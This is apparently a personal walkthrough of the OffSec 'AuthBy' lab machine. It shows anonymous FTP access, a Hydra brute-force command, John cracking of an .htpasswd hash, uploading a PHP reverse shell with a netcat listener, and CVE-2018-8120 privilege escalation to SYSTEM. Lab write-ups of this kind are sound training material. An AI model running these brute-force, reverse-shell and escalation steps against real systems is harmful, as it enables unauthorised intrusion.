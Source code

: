 Nmap scan:

![e731e835217c3e7df869fc31e9398c5b.png](../../../../../../_resources/e731e835217c3e7df869fc31e9398c5b.png)

Try anonymous ftp login (anonymous/anonymous):
`ftp 192.168.112.46`
![53ebf54f61cd3caf655502d8e96c0400.png](../../../../../../_resources/53ebf54f61cd3caf655502d8e96c0400.png)

View files:

![a490dccba8ecbcc6c26d71ec20040c52.png](../../../../../../_resources/a490dccba8ecbcc6c26d71ec20040c52.png)

Find account names here:

![9ea17a4d5fc4b3d9b944237388204538.png](../../../../../../_resources/9ea17a4d5fc4b3d9b944237388204538.png)

Seeing offsec, admin, and anonymous accounts. Decided to try to log into offsec and admin accounts using ftp with no password and with anonymous password. Didn't work. Finally tried to log into admin with admin and it worked. However, another guide points to port 242 where a login screen is shown:

![a55c16776cf7dcacc596bfd2097a2af6.png](../../../../../../_resources/a55c16776cf7dcacc596bfd2097a2af6.png)

Brute force this login using Hydra:

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.112.46 ftp –V -f`
Find password admin for account admin.

Now log into ftp using admin/admin to view more files:
![e63a399e2d32b53b37ed63b44d96fe7e.png](../../../../../../_resources/e63a399e2d32b53b37ed63b44d96fe7e.png)
See .htaccess and .htpasswd files:
![c829d226622d337e40e8b75d3eee281f.png](../../../../../../_resources/c829d226622d337e40e8b75d3eee281f.png)
Download files from ftp server:
`get [file_name]`

View files:
![baa06727a837fb3dfaad9f77f62a66c3.png](../../../../../../_resources/baa06727a837fb3dfaad9f77f62a66c3.png)
Translate:
![2439f1339a0eedecd1a80b08667fc0b6.png](../../../../../../_resources/2439f1339a0eedecd1a80b08667fc0b6.png)

View other file:
![fee8fbf6dd2f42ac07b9855e1eea0ab5.png](../../../../../../_resources/fee8fbf6dd2f42ac07b9855e1eea0ab5.png)

Use John to crack password with rockyou.txt:
`john --wordlist rockyou.txt .htpasswd`
![51602230b44f192765009aa59e541dc8.png](../../../../../../_resources/51602230b44f192765009aa59e541dc8.png)
Password for offsec account is elite. Use this to log into website at port 242:
![f54a28c17b374285f0dbee9a252b5271.png](../../../../../../_resources/f54a28c17b374285f0dbee9a252b5271.png)

Now I can upload a reverse shell onto the website. Site uses php as shown below, so find a reverse shell payload for Windows (AuthBy is a Windows box):
![1c0a32ceb8c5ee780bcb2a61b9cbb8dc.png](../../../../../../_resources/1c0a32ceb8c5ee780bcb2a61b9cbb8dc.png)
This windows reverse shell worked well:
https://github.com/Dhayalanb/windows-php-reverse-shell

Edit shellcode with attacker IP and port (used 8080). Upload onto the target using the ftp access with admin user:
`put shell.php`

Start netcat listener on port specified in shell.php (8080)
`nc -nlvp 8080`
Append shell.php to website from before (at port 242)
`http://192.168.112.46/shell.php`

This didn't work and I found out it's because of the tmp directory specified by default in that shell.php code. Modifying the $tmpdir variable to set it to C:\\wamp\\www fixes the issue
![182dc4eceef8df1da9e75908e6338ef5.png](../../../../../../_resources/182dc4eceef8df1da9e75908e6338ef5.png)

Make the change and rerun the exploit. Netcat returns a shell on the device:
![38743f30729c08458f8928ca31e017ed.png](../../../../../../_resources/38743f30729c08458f8928ca31e017ed.png)

Check logged in user:

![21b8d1231e2334de4b141b31acfeb14d.png](../../../../../../_resources/21b8d1231e2334de4b141b31acfeb14d.png)

Find user flag in user desktop directory.

Find out more info about the system:
`systeminfo`
![8ce82ce39f0c255ed85666ddc655a61d.png](../../../../../../_resources/8ce82ce39f0c255ed85666ddc655a61d.png)

Now looks for exploit for Server 2008 not using metasploit. Found https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120
This exploit allows a user on a system vulnerable to this exploit to start a new process as SYSTEM. This process can be used to to trigger a windows reverse shell payload.

Download the CVE-2018-8120 exploit. Save as exploit.exe.

Generate windows reverse shell payload named priv.exe using msfvenom:
![feb4fb1172fed0cf9d6ed70ececac2a6.png](../../../../../../_resources/feb4fb1172fed0cf9d6ed70ececac2a6.png)

Set up another listener specifying the same port from the windows msfvenom payload (using port found in nmap scan):
`nc -nlvp 3145`

Now use the exploit.exe to trigger the windows reverse shell payload:
![cad98fbdad05a7ee579b59415da7d3a2.png](../../../../../../_resources/cad98fbdad05a7ee579b59415da7d3a2.png)

Get a new shell back at the nc listener on port 3145 on the attack machine:
![f04f3984075820bdd7be054411a82614.png](../../../../../../_resources/f04f3984075820bdd7be054411a82614.png)

Find root flag in administrator desktop folder!
